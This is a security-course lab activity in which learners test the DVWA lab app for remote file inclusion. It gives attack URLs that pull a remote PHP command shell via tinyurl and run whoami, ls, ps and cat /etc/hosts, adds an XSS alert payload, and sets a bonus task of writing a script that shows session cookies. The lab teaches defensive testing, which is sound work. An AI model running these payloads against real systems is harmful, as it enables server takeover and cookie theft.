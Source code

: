 ## Activity File: Remote File Inclusion 

- In this activity, you will continue your role as an application security engineer with Replicants.

- You've just tested the company's main production website and confirmed there is another back-end component vulnerability, **local file inclusion**.

- Your manager is now concerned that the website is also vulnerable to **remote file inclusion** and would like you to now test for this vulnerability.

- Your manager has asked you to propose a mitigation strategy based on your findings.

## Setup 

- Access Vagrant and open a browser.

- Return to the same webpage from the previous activity: <http://192.168.13.25>.

  - Select the **File Inclusion** option from the menu on the left side of the page.

    - Note that this is the same page where the directory traversal activity was done.

  - Alternatively, you can access the webpage directly by using this link: <http://192.168.13.25/vulnerabilities/fi/>.
  
-  The page should look like the following image:

    ![On DVWA, a red arrow points to File Inclusion on the left-side menu.](directory_traversal.png)

- **Note**: If you have any issues accessing this webpage, you might need to repeat the activity setup steps from the SQL Injection Activity in 15.1.


## Instructions

The webpage you have revisited represents a page within Replicants website designed to display files within Replicants webserver. You previously determined this page has a directory traversal vulnerability. Complete the steps below to determine if this same webpage is also vulnerable to a **Remote File Inclusion** Vulnerability

1. Test the intended use of the web application.

    - Select `File1.php`, and note the following:

      - The URL changes to the following: <http://192.168.13.25/vulnerabilities/fi/?page=file1.php>.

      - The content on the webpage is displayed as follows:
      
              Hello admin
              Your IP address is: 192.168.13.1
          
    - Select the other links (`File2.php` and `File3.php`) and note their URL and webpage changes.

2. Test an unintended function of the application by referencing a remote webpage.

    - Note that you just tested how the application is designed to access a file on the Replicants web server.

    - Let's test what will happen if the URL is modified to reference an external or remote webpage.
    
    - Change the parameter of the URL to reference an external URL (<http://www.example.com>) instead of one of the files (`File1.php`). For example:
    
      - <http://192.168.13.25/vulnerabilities/fi/?page=http://www.example.com>
      
    - Note how the example.com webpage has been added to the top of the Replicants website.

      - Test other webpages by replacing example.com with other URLs.
        
    - Note that this illustrates that the webpage is designed to allow external references.

    - Let's try something a little more malicious by referencing a remote script instead of a webpage!
    
3. Test remote file inclusion.

    - We just saw how this webpage allows refrencing external sources such as webpages. 

      - Let's see what will happen if we reference a malicious external script instead of a webpage.
      
    - Using your browser in Vagrant, view the following webpage:

      - <https://tinyurl.com/y498epmz>
      
    - Note how this looks exactly like the script that was used in the local file inclusion activity.

      - But this script is hosted remotely!
      
    - Change the URL to reference this webpage, instead of example.com: <http://192.168.13.25/vulnerabilities/fi/?page=https://tinyurl.com/y498epmz>.

    - Note that this will not do anything; similar to the remote inclusion activity, we have to provide the script with a command-line command!

    - Let's start with the `whoami` command.

      - To add this command into the URL, add `cmd=whoami&` between `?` and `page`, as follows:
      
        - `http://192.168.13.25/vulnerabilities/fi/?cmd=whoami&page=https://tinyurl.com/y498epmz`
      
    - Run the command and note the results on the top left of the page.

    - Now see if you can modify the command to run the following:

      - `ls`
    
      - `ps`
    
      - cat the `/etc/hosts` file
    
4. **Bonus**: Combine remote file inclusion and cross-site scripting.

    - So far you have been able to run **remote file inclusion** by running remote scripts against a vulnerable web server.

    - These scripts have referenced an external webpage that contained a malicious script.

    - Let's see what would happen if you referenced a script that contained a **cross-site scripting** payload.

    - Using your browser again, look at the following webpage: 

      - <https://tinyurl.com/yxk853vy>

      - Note how this page contains a script that contains XSS payloads we developed previously.

        - `<script>alert("Hey you have been hacked")</script>`

    - Note that the exception is that the XSS payload is embedded within a PHP script.

    - Change the URL to reference this webpage, to see if you can get the XSS payload to execute the popup!

5. **Super Bonus**: Develop your own malicious script to capture cookies with a remote file inclusion exploit.

    - So far you have referenced pre-built webpages that contained malicious PHP script.

    - Let's see if you can write your own malicious PHP script webpage.

      - When your webpage is referenced, a script should run and pop up with the user's session cookies.

    - **Hint**: Look at the format of the script from Step 4, and modify this script to pop up with the session cookies: 

        `<script>alert("Hey you have been hacked")</script>`

    - **Hint**: To build a webpage with the script, do the following:

        - Add your script on the following webpage: <http://pastie.org/>.
      
        - Select Save Paste and then Raw on the top right to display the raw code.
      
        - This will create a unique URL with your code.
          
   - Reference the URL of this raw code from the same vulnerable webpage.

      - Run your URL and see if you can successfully get the session cookies to appear on a pop-up!

6. Answer the following mitigation strategy questions:

    - Describe to your management how a malicious user might take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

    - Describe in plain language to your manager how you can mitigate the vulnerabilities you just exploited.

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved. 
